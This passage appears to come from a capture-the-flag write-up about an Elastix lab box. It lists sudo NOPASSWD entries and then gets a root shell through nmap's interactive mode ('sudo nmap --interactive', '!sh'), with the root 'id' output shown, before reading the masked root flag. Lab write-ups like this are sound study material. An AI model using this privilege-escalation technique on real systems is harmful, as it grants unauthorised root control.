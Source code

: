 ```
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
```

There are plenty of commands to choose from. Let's use `nmap` interactive mode to spawn root shell.
```
sudo nmap --interactive
```
```
Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```

Privileges escalated, let's grab root flag and we are done.
```
cat /root/root.txt
********************************
```